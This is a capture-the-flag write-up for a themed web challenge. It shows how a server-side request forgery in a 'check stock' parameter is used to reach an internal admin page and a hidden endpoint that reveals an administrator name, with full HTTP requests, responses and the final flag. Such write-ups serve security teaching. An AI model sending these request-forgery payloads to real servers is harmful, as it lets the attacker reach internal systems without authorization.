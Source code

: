 # Intro
![](../img/TLTOPA.png)

# Information gathering
First entering the site the user is presented with four containers / parts.  
The top part:  
![](../img/TLTOPA_Top_Container.png)


Entering a name into the input redirects the user to the ```/verify``` telling that the wrong name was entered.  
Input: ```Pharaoh Amenhotep```  
![](../img/TLTOPA_Error.png)


The middle parts:  
![](../img/TLTOPA_Middle_Containers.png)


Using the hieroglyph translator to translate the hieroglyphs on the container above:  
```
....herein lies the localtomb of the great administrator pharaoh... only those who know the sacred pathways may enter... speak the true name to reveal what lies beyond these walls...
```  


The bottom part:  
![](../img/TLTOPA_Stock_Checker.png)


A function that fetches the stock of a specific treasure type by clicking the button "Check Stock".  
![](../img/TLTOPA_Checking_Stock.png)


Checking the request a url-encoded URL can be seen in the body of the request:  
```http
POST /check-stock HTTP/1.1
Host: 64.225.103.251:5001
Cookie: session=.eJwVzFEKAiEQANC7zLcGsRThBTpA_ctsjjml46LjQkV3b_t_vA9gKCxesBA4uJCyvaahpXaymsieG6GCAVzYh1qQZWMr5kwvW6N9stz7TuhPWFgZM78pgNM2yMBSm3oZZaYG7nia9gY63RqpX1DTNs2xc3wcCk_w_QGmWTEU.aBOYJg.UWSv7_lVin9fLRjC8WdgPIZGJ7s
Content-Length: 69
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: https://64.225.103.251:5001
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://64.225.103.251:5001/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

sarcophagiAPI=http%3A%2F%2Fvalley-of-kings.net%2Fcontents%2Fartifacts
```

Decoded URL
```
http://valley-of-kings.net/contents/artifacts
```


# Attack
From the hint a new URL can be crafted:  
```http://localtomb/pharaoh```

Changing the body parameter ```sarcophagiAPI``` to the newly crafted URL, a admin site is returned to the client that should only be accessible locally.   
Request:  
```http
POST /check-stock HTTP/1.1
Host: 64.225.103.251:5001
Cookie: session=.eJwVzFEKAiEQANC7zLcGsRThBTpA_ctsjjml46LjQkV3b_t_vA9gKCxesBA4uJCyvaahpXaymsieG6GCAVzYh1qQZWMr5kwvW6N9stz7TuhPWFgZM78pgNM2yMBSm3oZZaYG7nia9gY63RqpX1DTNs2xc3wcCk_w_QGmWTEU.aBOYJg.UWSv7_lVin9fLRjC8WdgPIZGJ7s
Content-Length: 44
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: https://64.225.103.251:5001
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://64.225.103.251:5001/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

sarcophagiAPI=http%3A%2F%2Flocaltomb/pharaoh
```

Response:
```http
HTTP/1.1 200 OK
Server: nginx/1.27.4
Date: Thu, 01 May 2025 16:14:14 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 3063
Connection: keep-alive
Vary: Cookie

<!-- Include the Google Font for hieroglyphs -->
<link href="https://fonts.googleapis.com/css2?family=Noto+Sans+Egyptian+Hieroglyphs&display=swap" rel="stylesheet">

<style>
    /* Inline styles for hieroglyphs with 18px font size */
    .hieroglyphs {
        font-family: 'Noto Sans Egyptian Hieroglyphs', 'Segoe UI Historic', 'Arial Unicode MS', serif;
        font-size: 18px !important;
        line-height: 1.5;
    }
</style>

<div class="pharaoh-interface">
    <h3  style="font-size: 20px;">Pharaoh's Administrative Chamber</h3>
    <p class="admin-warning" style="color: #c4512b; font-weight: bold;"  style="font-size: 20px;">Warning: You have accessed a restricted area!</p>
    
    <div style="margin: 20px 0; padding: 15px; border: 1px solid #614726; background-color: #fdf6e3;">
        <h4  style="font-size: 20px;">Pharaoh's Administrative Functions</h4>
        
        <div class="admin-buttons" style="display: flex; flex-wrap: wrap; gap: 10px; margin-top: 15px;">
            <form action="/admin-function" method="post">
                <input type="hidden" name="function" value="treasury">
                <button type="submit" style="background-color: #8b4513; color: #f5e1a3; border: none; padding: 8px 12px; border-radius: 3px; cursor: pointer;" class="hieroglyphs">𓃙𓌮𓆣𓀠𓋪𓇁𓍄𓆣𓏏𓉡𓍓𓍄𓍵𓋪𓇌𓊿𓌩𓎛𓆣𓌩𓎛𓉡</button>
            </form>
            
            <form action="/admin-function" method="post">
                <input type="hidden" name="function" value="servants">
                <button type="submit" style="background-color: #8b4513; color: #f5e1a3; border: none; padding: 8px 12px; border-radius: 3px; cursor: pointer;" class="hieroglyphs">𓆡𓏏𓌩𓏏𓆑𓆣𓋪𓄁𓆣𓍄𓋝𓏏𓌩𓎛𓉡</button>
            </form>
            
            <form action="/admin-function" method="post">
                <input type="hidden" name="function" value="tribute">
                <button type="submit" style="background-color: #8b4513; color: #f5e1a3; border: none; padding: 8px 12px; border-radius: 3px; cursor: pointer;" class="hieroglyphs">𓄀𓆣𓋏𓊿𓍄𓍷𓋪𓇁𓍄𓌮𓈬𓍓𓎛𓆣𓉡</button>
            </form>
            
            <form action="/pharaoh/bfsifj5mi3/secrettomb" method="get">
                <button type="submit" style="background-color: #8b4513; color: #f5e1a3; border: none; padding: 8px 12px; border-radius: 3px; cursor: pointer; font-weight: bold;" class="hieroglyphs">𓏬𓋏𓋏𓆣𓉡𓉡𓋪𓄁𓆣𓋏𓍄𓆣𓎛𓋪𓇁𓊿𓋫𓈬</button>
            </form>
            
            <form action="/admin-function" method="post">
                <input type="hidden" name="function" value="monuments">
                <button type="submit" style="background-color: #8b4513; color: #f5e1a3; border: none; padding: 8px 12px; border-radius: 3px; cursor: pointer;" class="hieroglyphs">𓃦𓍖𓏏𓌩𓋪𓆡𓊿𓌩𓍓𓋫𓆣𓌩𓎛𓉡</button>
            </form>
        </div>
    </div>
    
</div>
```


The response contains more hieroglyphs, using the translator on the site:
In order top-bottom:
𓃙𓌮𓆣𓀠𓋪𓇁𓍄𓆣𓏏𓉡𓍓𓍄𓍵𓋪𓇌𓊿𓌩𓎛𓆣𓌩𓎛𓉡 = View Treasury Contents
𓆡𓏏𓌩𓏏𓆑𓆣𓋪𓄁𓆣𓍄𓋝𓏏𓌩𓎛𓉡 = Manage Servants
𓄀𓆣𓋏𓊿𓍄𓍷𓋪𓇁𓍄𓌮𓈬𓍓𓎛𓆣𓉡 = Record Tributes
𓃦𓍖𓏏𓌩𓋪𓆡𓊿𓌩𓍓𓋫𓆣𓌩𓎛𓉡 = Plan Monuments

The fourth button form the top is the only one that has the ```method``` set to ```GET```
```html
<form action="/pharaoh/bfsifj5mi3/secrettomb" method="get">
```


Entering this endpoint to the ```POST``` request a new site is returned containing the "Sacred name":  
Request:  
```http
POST /check-stock HTTP/1.1
Host: 64.225.103.251:5001
Cookie: session=.eJwVzFEKAiEQANC7zLcGsRThBTpA_ctsjjml46LjQkV3b_t_vA9gKCxesBA4uJCyvaahpXaymsieG6GCAVzYh1qQZWMr5kwvW6N9stz7TuhPWFgZM78pgNM2yMBSm3oZZaYG7nia9gY63RqpX1DTNs2xc3wcCk_w_QGmWTEU.aBOYJg.UWSv7_lVin9fLRjC8WdgPIZGJ7s
Content-Length: 66
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: https://64.225.103.251:5001
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://64.225.103.251:5001/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

sarcophagiAPI=http%3A%2F%2Flocaltomb/pharaoh/bfsifj5mi3/secrettomb
```

Response:  
```http
HTTP/1.1 200 OK
Server: nginx/1.27.4
Date: Thu, 01 May 2025 16:15:04 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 676
Connection: keep-alive
Vary: Cookie

<div class="secret-tomb" style="font-family: 'IM Fell English SC', serif";>
    <h3>The Secret Tomb</h3>
    <p class="admin-warning" style="color: #c4512b; font-weight: bold;">HIGHLY RESTRICTED AREA - UNAUTHORIZED ACCESS DETECTED</p>
    
    <div style="margin: 20px 0; padding: 20px; border: 2px dashed #8b4513; background-color: #f9e5a1; text-align: center;">
        <h4 style="color: #c4512b;">ADMINISTRATOR INFORMATION</h4>
        <p>Authentication required to enter the inner chamber.</p>
        <p>Administrator name:</p>
        <p id="sacred-name" style="font-size: 24px; font-weight: bold; color: #8b4513; letter-spacing: 2px;">Seti-Thutmose-the-Great</p>
</div>
```

```html
<p id="sacred-name" style="font-size: 24px; font-weight: bold; color: #8b4513; letter-spacing: 2px;">Seti-Thutmose-the-Great</p>
```

![](../img/TLTOPA_Speak_Name.png)
![](../img/TLTOPA_Solved.png)


```Flag: O24{4nkh_th3_k3y_0f_l1f3_unl0ck5_7h3_s4cr3d_t0mb}```